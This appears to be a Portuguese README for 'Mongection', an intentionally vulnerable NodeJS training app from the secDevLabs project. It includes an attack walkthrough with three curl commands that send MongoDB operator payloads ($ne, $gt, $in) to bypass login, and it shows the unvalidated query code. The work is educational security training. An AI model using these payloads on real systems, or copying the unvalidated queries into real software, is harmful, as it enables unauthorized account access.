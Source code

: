 # Mongection

[Access content in English](README.md)

<p align="center"><img  src="images/a1-banner.png"/></p>

Mongection é uma aplicação web NodeJS que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 


## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/mongection
```

```sh
make install
```

Depois é só visitar  [localhost:10001][app], conforme exemplificado abaixo:

<img src="images/attack0.png" align="center"/>

## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas NoSQL

Depois de revisar [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/mongection/src/db.js) oi possível ver que algumas entradas de usuários são concatenadas com consultas NoSQL, conforme mostrado nos trechos de código a seguir:

```js
const existUser = await User.findOne({ email: email });
```

```js
const existsUser = await User.find({
  $and: [{ email: email }, { password: password }],
});
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

#### 🔥

Um invasor pode criar uma consulta maliciosa como `{"$ne":""}` e passá-la para os campos de email e senha. Como `$ne` é a condição diferente no MongoDB, isso está consultando todas as entradas na coleção de logins em que `username` e `password` não são iguais a "" (vazio).

Usando `curl` na interface CLI, a carga maliciosa pode ser enviada conforme mostrado abaixo:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

O aplicativo retornará o primeiro usuário que o MongoDB encontrar com um "Hello, Welcome Again!" mensagem, demonstrando que a autenticação foi ignorada. Deve haver pelo menos um usuário já cadastrado no banco de dados para receber esta mensagem.

O mesmo resultado poderia ser alcançado se o invasor enviasse uma carga útil usando a diretiva `$gt` (maior que). A consulta a seguir buscará entradas com campos `username` e `password` maiores que "" (vazio).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```

<p  align="center"><img  src="images/attack2.png"/></p>

Outra possível carga maliciosa poderia usar a diretiva `$in`. A consulta a seguir irá percorrer cada elemento do array fornecido e tentará cada valor listado para o campo `username`. Além disso, `{"$gt":""}` garantirá que o campo `password` não seja avaliado.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas NoSQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira  [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
